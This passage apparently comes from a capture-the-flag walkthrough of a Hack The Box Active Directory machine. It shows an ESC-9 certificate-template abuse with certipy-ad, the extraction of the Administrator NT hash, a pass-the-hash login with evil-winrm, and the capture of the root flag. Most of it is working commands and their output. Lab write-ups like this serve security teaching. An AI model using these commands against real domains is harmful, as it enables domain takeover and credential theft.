

---
> **Note:** `ESC-9` is a type of attack on `ADCS` that is part of the `Enterprise Security Certificate Escalation` technique set. The attack is related to a vulnerable certificate template
> allowing a foreign `UPN` to be specified when requesting a certificate.
---

> Similar to what I did when the `management_svc` user was compromised, only in this case I will request an existing AD `administrator` certificate.

> To request an administrator certificate you need to convince the domain controller that the requesting user who has the rights to request certificates (`ca_operator`)
> is an `administrator` - that is has the corresponding `UPN`. Thanks to the `NoSecurityExtension` value the CA will not check whether the specified `UPN` matches the
> requesting user.

---
> **Note:** `UPN` is an attribute representing a **unique account** in Active Directory in the form of `user@domain` used for `Kerberos authentication`.
---

> `management_svc` service account has full control over `ca_operator` (**GenericAll**). Using its **login + NT-hash** I can change the `UPN` attribute of the `ca_operator` user:

```bash

sudo certipy-ad account update -u 'management_svc@certified.htb' -hashes :a091c1832bcdd4677c28b5a6a1295584 -user ca_operator -upn Administrator -dc-ip 10.10.11.41

```
> Result:

```bash

[*] Updating user 'ca_operator':
    userPrincipalName                   : Administrator
[*] Successfully updated 'ca_operator

```
> Now I request a certificate on behalf of `ca_operator` but with the specified `UPN` - `Administrator`

```bash

sudo certipy-ad req -u 'ca_operator@certified.htb' -p qwerty123 -ca certified-DC01-CA -template CertifiedAuthentication -dc-ip 10.10.11.41

```
> Result:



> CA does not check whether the `UPN` belongs to the user `ca_operator` since there is no `Security Extension` and it is allowed to specify an alternative `UPN`.
> Therefore it is as if the certificate is requested by `Adminstrator` itself; although the account is `ca_operator`.

> Having received the administrator's certificate I return the entry in the `UPN` attribute back to `ca_operator`:

```bash

sudo certipy-ad account update -u 'management_svc@certified.htb' -hashes :a091c1832bcdd4677c28b5a6a1295584 -user ca_operator -upn ca_operator -dc-ip 10.10.11.41

```

> I use the received certificate and perform `PKINIT` authentication via `kerberos` via `certipy-ad`:

---
> **Note:** Similar to how we extracted the `NT hash` from the generated certificate when `management_svc` was compromised:
---

```bash

sudo certipy-ad auth -pfx administrator.pfx -domain certified.htb -dc-ip 10.10.11.41

```

> Result:



> I get **NTLM hash** of the `Administrator` - `aad3b435b51404eeaad3b435b51404ee:0d5b49608bbce1751f708748f67e2d34`

> I use the received hash to authenticate in the system under `Administrator` via `winrm`:

```bash

sudo evil-winrm -i certified.htb -u administrator -H 0d5b49608bbce1751f708748f67e2d34

```
> Result:

```bash

*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
certified\administrator
*Evil-WinRM* PS C:\Users\Administrator\Documents>

```
> I get root flag:

```bash

*Evil-WinRM* PS C:\Users\Administrator\Desktop> ls


    Directory: C:\Users\Administrator\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---        6/26/2025   5:27 PM             34 root.txt


*Evil-WinRM* PS C:\Users\Administrator\Desktop> more root.txt
45ce140feb29179b6ca07a991a7cf394

*Evil-WinRM* PS C:\Users\Administrator\Desktop>

```

> root flag - `45ce140feb29179b6ca07a991a7cf394`. The system is completely compromised.

---
## 🧠 Conclusion

> During the walkthrough of this machine insecure `access rights` were discovered and exploited on objects in the Active Directory infrastructure. The presence of `OwnerWrite`
> rights allowed to gain full control over the `Management` group which had `GenericWrite` permissions configured, which led to the compromise of the service account `management_svc`
> by exploiting the `Shadow Credentials` technique. `management_svc` in turn had `GenericAll` rights configured over the `ca_opertor` account which allowed to reset the password for
> `ca_operator` and gain full control over operations related to requesting certificates. During reconnaissance of the `ADCS` infrastructure an insecure certificate template vulnerable
> to the `ESC-9` attack was discovered which allowed to change the `UPN` of the `ca_operator` account and obtain the ability to request a certificate on behalf of the `Administrator`.
> The `NTLM hash` of the `Administrator` user was extracted from the received certificate which resulted in a complete compromise of the system.

<p align="center">
  
</p>
